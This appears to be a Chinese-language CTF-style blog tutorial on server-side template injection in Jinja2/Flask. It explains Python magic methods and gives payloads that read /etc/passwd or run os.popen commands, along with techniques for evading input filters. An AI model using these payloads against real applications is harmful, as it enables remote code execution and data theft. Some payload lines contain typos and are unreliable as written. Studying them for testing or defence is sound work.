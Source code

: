 # SSTI注入篇


# SSTI漏洞成因

ssti服务端模板注入成因为：web应用在使用框架（如python的flask、jinjia2、django；java的freemarker、velocity；php的thinkphp、smarty等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。



# SSTI中常用魔术方法

- \__class__ 返回一个实例所属的类
- \__mro__ 查看类继承的所有父类，直到object
- \__subclasses__() 获取一个类的子类，返回的是一个列表
- \__bases__ 以元组形式返回一个类直接继承的类
- \__init__ 类实例创建之后调用，对当前对象的实例的初始化
- \__globals\_\_ 使用方式为**函数名**\.\_\_globals__，返回一个当前空间下能使用的模块、方法和变量的字典
- \__getattribute__ 当类被调用时，无条件进入此函数
- \__getattr__ 访问对象中不存在的属性时调用
- \__dict__ 返回所有属性，包括属性、方法等
- \__builtins__ 查看当前所有导入的内建函数



# 攻击思路

- ## 获取基本类

```markdown
__dict__          //返回类中的函数和属性，父类子类互不影响
__base__          //返回类的父类 python3
__mro__           //返回类继承的元组，(寻找父类) python3
__init__          //返回类的初始化方法   
__subclasses__()  //返回类中仍然可用的引用  python3
__globals__       //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
__class__         //返回实例的对象，可以使类实例指向Class，使用上面的魔术方法
```

```markdown
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```



- ## 获取基本类后，继续获取基本类的子类

  ```markdown
  object.__subclasses__()
  ```



- ##  找\__init__类

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[99].__init__



- ## 查看其引用\__builtins__

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

  

- ## 寻找keys中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```markdown
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```



# 常用目标函数

```markdown
file、subprocess.Popen、os.popen、exec、eval
```



# 绕过过滤方法

- ## 过滤中括号

  魔术方法\__getitem__可替代中括号

  ```markdown
  当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}
  
  可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

  

- ## 过滤下划线

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时get方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__
  
  2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

  

- ## 过滤点

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}
  
  2. 使用中括号绕过，payload:
  {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

  

- ## 过滤大括号

  ~~~markdown
  使用{%%}替代{{}}，payload:
  ```liquid
  {% raw %}{% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) %}{% endraw %}
  ```
  ~~~

- ## 过滤引号

  ```markdown
  当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.通过request.args的get传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时get传参?popen=popen&cmd=cat /flag
  
  2.通过request.form的post传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时post传参?popen=popen&cmd=cat /flag
   
  3.使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

  也可将下划线进行

- ## 过滤数字

  ```markdown
  使用过滤器length绕过
  {% set a='aaa' | lenth %}{{ ().__class__.__base__.__subclasses__()[a]}}
  ```

  

- ## 过滤函数名

  ```markdown
  1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  2.16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  3.base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```

  


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

